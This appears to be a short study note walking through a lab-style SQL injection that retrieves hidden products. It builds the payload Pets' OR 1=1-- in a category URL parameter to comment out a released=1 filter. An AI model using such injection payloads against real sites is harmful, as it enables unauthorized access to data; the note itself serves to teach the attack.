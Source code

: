 # Retriveral of Hidden data

normal query when a category is asked to retrive the data

``` sql
select * from products where category =  'GIFTS' and released = 1
```

the released=1 is restriction to hide the unreleased data

end goal : to display all the unreleased and released products

```sql
select * from products where category =  'pets' and released = 1
```

this query returns all the released data from category PETS

Now lets make payload

```sql
-> select * from products where category =  'Pets' OR 1=1 --' and released = 1

execution
-> url = /filter?category=Pets' OR 1=1--
```

'--' will comment out the query AND RELEASED = 1 and 1=1 is always true, so this will return all the unreleased data from Pets category
